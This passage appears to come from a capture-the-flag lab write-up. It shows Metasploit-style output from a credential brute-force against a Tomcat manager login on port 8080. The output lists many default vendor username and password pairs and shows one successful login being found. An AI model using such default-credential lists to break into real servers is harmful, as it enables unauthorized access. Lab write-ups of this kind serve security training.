 ```
[-] 10.10.10.95:8080 - LOGIN FAILED: root:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: tomcat:tomcat (Incorrect)
[+] 10.10.10.95:8080 - Login Successful: tomcat:s3cret
[-] 10.10.10.95:8080 - LOGIN FAILED: both:both (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both: (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:admin (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:manager (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:role1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:root (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:tomcat (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:s3cret (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: both:vagrant (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: j2deployer:j2deployer (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ovwebusr:OvW*busr1 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: cxsdk:kdsxc (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: root:owaspbwa (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: ADMIN:ADMIN (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: xampp:xampp (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: QCC:QLogic66 (Incorrect)
[-] 10.10.10.95:8080 - LOGIN FAILED: admin:vagrant (Incorrect)
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

.. and we have a hit!~ (`tomcat:s3cret`).
